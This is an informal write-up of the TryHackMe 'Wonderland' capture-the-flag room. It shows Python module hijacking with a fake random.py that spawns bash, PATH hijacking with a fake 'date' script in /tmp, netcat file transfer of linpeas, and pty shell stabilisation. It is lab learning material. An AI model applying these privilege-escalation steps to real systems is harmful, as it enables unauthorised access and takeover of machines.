 ```yaml
---
title: "Wonderland machine tryhackme writeup"
excerpt_separator: "<!--more-->"
date: 2023-10-28
categories:
  - TryHackMe Writeups
tags:
  - Hacking
  - Notes
  - writeup
  - ctf
---
```


### Wonderland — TryHackMe Walkthrough

- *My writeups are more of my own mind-map than an "official" walkthrough, it may not seem straightforward sometimes but that's just the beauty of my own thinking.*

## Foothold:

- the website had a simple picture of a rabbit, i downloaded it to analyze it with Exif —-TAKEAWAY Exif is for metadata , steghide is for any hidden messages inside the images.
- using nmap as usual, only two ports were open ssh and http.
- next i used gobuster for enumeration i found a directory **/r**, i checked it and it’s a page with a text it’s like hints for the next step so my instinct was that its **/r/a/b/b/i/t** since the first web page said to follow the rabbit ***literally*** 😉
- after this i got stuck tbh there was nothing to do but i forgot to check the source code and the next hint was there ***alice ssh credentials.***
- after connecting to ssh with those credentials there was a python script.

***the attack vector:***
- the script basically gives random poem lines BUT it uses the library [random.py](http://random.py) so ***TRICK 1*** check the path python uses to look for random lib using:

```python
python3 -c 'import sys; print (sys.path)'
```

- it first checks the directory the script is in then go for the python libs default directory and bingo. so all we had to do is create a fake [random.py](http://random.py) that gives us a bash into the rabbit user using:

```python
import os

os.system("/bin/bash")
```

- after doing ***sudo -u rabbit /usr/bin/python3.6 /home/alice/script.py*** - we’re in with rabbit.
- rabbit has a teaParty file after executing it, it gives a segmentation error, after checking with ghidra or IDA we see that it uses the functions **date** and **echo** from **/bin** using a relative linux path.
- ***TRICK 2***  we have a write acces into /tmp so we could create a "date" bash script including this :

```bash
#!/bin/bash

/bin/bash
```

- after "chmod 777 date" we add the **/tmp** to PATH using **export PATH=/tmp:$PATH**
- that’s crucial to add it at the start of the PATH.
- going back to teaParty execution and boom we’re the user hatter, we take the ssh password from the directory then connect to hatter properly through ssh.
- i guess using **linpeas** was essential to find the vulnerable parameter which was related to perl, to transfer linpeas into the victim machine i learnt this ***TRICK 3 :***

```bash
#Victim machine first
nc -lvnp 9200 > linpeas.sh
```

```bash
# My machine
nc @Victim_ip 9200 < linpeas.Sh
```

- after finding the vulnerable point we escalate to root, stabilize the terminal using ***python3 -c ‘import pty; pty.spawn(”/bin/bash”)’***  and look for user.txt and root.txt and ***VOILA***